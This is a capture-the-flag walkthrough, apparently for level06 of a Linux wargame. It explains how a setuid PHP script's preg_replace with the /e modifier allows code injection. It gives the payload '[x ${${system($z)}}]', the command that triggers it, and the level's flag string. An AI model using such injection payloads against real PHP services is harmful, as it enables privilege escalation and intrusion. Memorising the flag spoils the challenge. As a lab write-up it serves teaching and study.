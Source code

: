 # level06

Home contains two files : a compiled PHP script `level06`, and its source code in `level06.php`.

A quick `ls -la` tells us that `level06` belongs to user `flag06`, and that it can run as sudo (`rws`) :

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
```

We examine the source code in `level06.php` (reformatted for readability) :

```
     1  #!/usr/bin/php
     2  <?php
     3
     4  function y($m) {
     5      $m = preg_replace("/\./", " x ", $m);
     6      $m = preg_replace("/@/", " y", $m);
     7      return $m;
     8  }
     9
    10  function x($y, $z) {
    11      $a = file_get_contents($y);
    12      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    13      $a = preg_replace("/\[/", "(", $a);
    14      $a = preg_replace("/\]/", ")", $a);
    15      return $a;
    16  }
    17
    18  $r = x($argv[1], $argv[2]);
    19  print $r;
    20
    21  ?>
```

The script can be ran with `./level06 filename unused_second_argument`. It reads the file supplied as argument, applies a few Regex match replacements on it, and returns the result.

What can we exploit ? The vulnerability is found at line 12, `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`. The `/e` (for 'eval') is a now-deprecated regex option that replaces the match with the *execution* of the second parameter. This means a match here will be replaced by the PHP execution of the code `y("\2")`.

We have our base ingredients. Couple things to note :

- The regex matches `[x *]`, `*` being anything
- The `\2` refers to the regex group. Group 1 is `[x *]`, group 2 is `*`
- We can still execute code in the double-quotes, if we use `${${code_to_execute}}`
- We can use the unused argument `$z` (or `$argv[2]`) to our advantage

Knowing this, we write to a file :

```
echo '[x ${${system($z)}}]' > /tmp/file.txt
```

`[x ${${system($z)}}]` will match the regex, `\2` will be `${${system($z)}}`, so `system($z)` will be executed.

We can now execute our script with the following arguments :

```
./level06 /tmp/file.txt getflag
```

The script runs `system("getflag")`, and we get the level 06 flag :

```
wiok45aaoguiboiki2tuin6ub
```
